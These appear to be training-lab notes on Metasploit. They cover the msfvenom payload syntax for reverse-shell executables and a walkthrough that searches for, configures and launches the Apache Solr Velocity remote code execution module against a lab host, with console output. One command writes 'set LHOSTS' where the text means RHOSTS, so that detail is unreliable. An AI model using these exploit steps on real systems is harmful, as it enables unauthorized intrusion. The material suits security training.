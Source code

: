 ## MSFvenom
- Combined payload generation/encoding tool (replacement for msfpayload+msfencode).
- Allows creating malware files and adapting them for different operating systems
- Usage: `msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> -o <outfile>` (e.g., generate an exe with a meterpreter reverse shell).

## Practical notes & ethics
- Many Metasploit features (e.g., evasion, exploit modules) can be intrusive; always obtain authorization before scanning/exploiting systems.
- Use `check` where available to validate exploits non‑destructively before running them.

---
### Exercise

What is the Metasploit exploit module for the Remote Code Execution vulnerability due to an outdated version of the Apache Solr service?
First open `msfconsole` and then use the following command to search for the exploit module:
search solr
Then we have to identify the correct module from the search results.
```
 1   exploit/multi/http/solr_velocity_rce            2019-10-29       excellent  Yes    Apache Solr Remote Code Execution via Velocity Template
```

Then we select the module with:
```
    use exploit/multi/http/solr_velocity_rce

```
And we can view the module information with:

```
    info

  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  PASSWORD   SolrRocks        no        Solr password
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT      8983             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /solr/           no        Path to Solr
  URIPATH                     no        The URI to use for this exploit (default is random)
  USERNAME   solr             no        Solr username
  VHOST                       no        HTTP server virtual host
```
The victims machine is `172.20.16.38` so we have to set the `RHOSTS` option with:
```
    set LHOSTS 172.20.16.38
```
```
msf6 exploit(multi/http/solr_velocity_rce) > exploit
[*] Started reverse TCP handler on 10.8.65.249:4444 
[*] 172.20.16.38:8983: Authentication not required
[*] Found Apache Solr 8.2.0
[*] OS version is Linux amd64 5.10.0-27-amd64
[*] Found core(s): novacollection
[+] Found Velocity Response Writer in use by core 'novacollection'
[!] params.resource.loader.enabled for core 'novacollection' is set to false.
[*] Targeting core 'novacollection'
```